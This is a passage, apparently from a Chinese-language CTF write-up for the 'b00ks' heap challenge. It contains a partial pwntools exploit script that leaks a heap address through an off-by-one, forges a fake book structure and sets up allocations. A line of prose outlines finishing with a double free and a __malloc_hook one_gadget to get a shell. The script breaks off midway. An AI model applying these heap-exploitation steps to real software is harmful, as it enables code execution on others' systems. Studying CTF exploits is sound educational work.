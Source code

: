 最后double free触发malloc_printerr从而触发__malloc_hook执行one_gadget，get shell

具体的接替脚本如图，如果有问题，大概就是算偏移那里有一些不一样吧hhh。


```python
  1 #coding:utf8
  2 from pwn import *
  3 
  4 #context.log_level = 'debug'
  5 def create(size,content,dsize,dcontent):
  6     p.sendline("1")
  7     log.info(p.recvuntil(":"))
  8     p.sendline(str(size))
  9     log.info(p.recvuntil(":"))
 10     p.sendline(content)
 11     log.info(p.recvuntil(":"))
 12     p.sendline(str(dsize))
 13     log.info(p.recvuntil(":"))
 14     p.sendline(dcontent)
 15     log.info(p.recvuntil(">"))
 16 
 17 def delete(index):
 18     p.sendline("2")
 19     log.info(p.recvuntil(":"))
 20     p.sendline(index)
 21     log.info(p.recvuntil(">"))
 22 
 23 
 24 def edit(index,content):
 25     p.sendline("3")
 26     log.info(p.recvuntil(":"))
 27     p.sendline(index)
 28     log.info(p.recvuntil(":"))
 29     p.sendline(content)
 30 
 31 def show():
 32     p.sendline("4")
 33 
 34 def nameedit():
 35     p.sendline("5")
 36     p.recvuntil("name: ")
 37     p.sendline("1"*32)
 38 
 39 p=process("./b00ks")
 40 context(log_level='debug', os='linux',arch="amd64")
 41 context.terminal = ['tmux', 'split', '-h']
 42 libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
 43 gdb.attach(p,"b 0x555555554000+0x1234")
 44 pause()
 45 p.sendlineafter("name: ","a"*32)
 46 create(48,"HHHHHHH",200,(""))  #1
 47 pause()
 48 show()
 49 p.recvuntil("a"*32)
 50 book1=u64(p.recv(6)+'\x00'*2)
 51 log.success("book1 -> {:#x}".format(book1))
 52 p.recvuntil(">")
 53 edit("1","1"*0xa0+p64(1)+p64(book1+0x60)+p64(book1+0x60)+p64(0xc8))
 54 nameedit()
 55 
 56 ############1#############
 57 create(16,"AAAAAA",0x21000,"BBBBB")
 58 #############2###########
 59 
```